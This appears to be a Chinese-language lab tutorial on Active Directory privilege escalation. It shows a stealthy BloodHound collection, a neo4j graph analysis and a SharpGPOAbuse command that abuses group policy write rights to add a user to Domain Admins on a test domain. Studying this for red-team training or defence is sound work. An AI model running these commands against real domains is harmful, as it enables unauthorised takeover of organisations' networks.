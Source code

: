 
```bash
Invoke-Bloodhound -CollectionMethod DcOnly -Stealth -PrettyJson -NoSaveCache
```

- CollectionMethod DcOnly表示仅从域控收集数据。从opsec的角度来看，这样比较好，因为是正常流量。
- Stealth单线程启动。速度较慢，但安全。
- PrettyJson 格式化.json文件。
- NoSaveCache 不保存缓存文件。


<br />启动血犬<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626705593143-a60d6656-b3ad-4ede-9a22-b934dd39aa3c.png#align=left&display=inline&height=993&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1986&originWidth=3366&size=242799&status=done&style=none&width=1683)<br />下载社区版的neo4j<br />[https://neo4j.com/download-center/#releases](https://neo4j.com/download-center/#releases)<br />
<br />

```bash
❯ jdk11
❯ ./neo4j start
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626705876930-b6ee884d-cee3-46a2-9b44-2754c51d129d.png#align=left&display=inline&height=876&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1752&originWidth=4124&size=479932&status=done&style=none&width=2062)<br />
<br />先把service1标记为已沦陷<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626705949798-f3232246-3cf1-4a5e-92a1-302198afe19c.png#align=left&display=inline&height=524&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1048&originWidth=1954&size=98653&status=done&style=none&width=977)<br />
<br />点击这里<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626706073835-19f3828b-2599-441f-9c91-83eb6dce37ed.png#align=left&display=inline&height=614&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1228&originWidth=1282&size=232104&status=done&style=none&width=641)<br />
<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626706051334-490e29ef-8340-40ad-868c-deeca36dbca3.png#align=left&display=inline&height=924&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1848&originWidth=4182&size=417297&status=done&style=none&width=2091)<br />这里显示用户对域控的组策略有写入权限，通过组策略利用，攻击DC<br />需要先以service1的身份登录
```bash
runas /user:wing.lab\service1 powershell
```
```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author contoso\adminuser --Command "cmd.exe" --Arguments '/c net group \"Domain Admins\" john /ADD' --GPOName "Default Domain Controllers Policy" --force

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626706406755-55caba5e-83d8-4959-9905-c759f1e821e4.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=375995&status=done&style=none&width=1024)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626706417625-d067083b-5b8c-48d8-8298-20f072d9efb0.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=472894&status=done&style=none&width=1024)<br />
<br />写入完成以后，需要等管理员更新组策略才会触发。<br />手工弄一下。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626706467985-cb18fd52-5ac7-4165-9300-c73bcf6c184e.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=402799&status=done&style=none&width=1024)<br />提权成功<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626706557440-f088fd25-45d9-4ba1-84f3-2331211a20c6.png#align=left&display=inline&height=168&margin=%5Bobject%20Object%5D&name=image.png&originHeight=336&originWidth=1438&size=52197&status=done&style=none&width=719)<br />成功登录到域控<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626706633268-ed727a46-0aa8-4932-a103-d51cf9c0bef2.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=111770&status=done&style=none&width=1024)
<a name="GTVoC"></a>
### 课后习题

